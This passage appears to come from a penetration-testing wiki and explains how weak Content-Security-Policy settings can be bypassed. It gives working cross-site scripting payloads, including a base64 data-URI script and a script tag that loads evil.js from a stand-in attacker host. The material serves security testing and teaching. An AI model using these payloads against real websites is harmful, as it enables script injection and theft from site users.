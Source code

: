 ## Unsafe CSP Rules

### 'unsafe-inline'

```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-inline';
```

Working payload: `"/><script>alert(1);</script>`

#### self + 'unsafe-inline' via Iframes

{{#ref}}
csp-bypass-self-+-unsafe-inline-with-iframes.md
{{#endref}}

### 'unsafe-eval'

> [!CAUTION]
> This is not working, for more info [**check this**](https://github.com/HackTricks-wiki/hacktricks/issues/653).

```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-eval';
```

Working payload:

```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

### strict-dynamic

If you can somehow make an **allowed JS code created a new script tag** in the DOM with your JS code, because an allowed script is creating it, the **new script tag will be allowed to be executed**.

### Wildcard (\*)

```yaml
Content-Security-Policy: script-src 'self' https://google.com https: data *;
```

Working payload:

```html
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```

### Lack of object-src and default-src

> [!CAUTION] > **It looks like this is not longer working**

```yaml
Content-Security-Policy: script-src 'self' ;
```
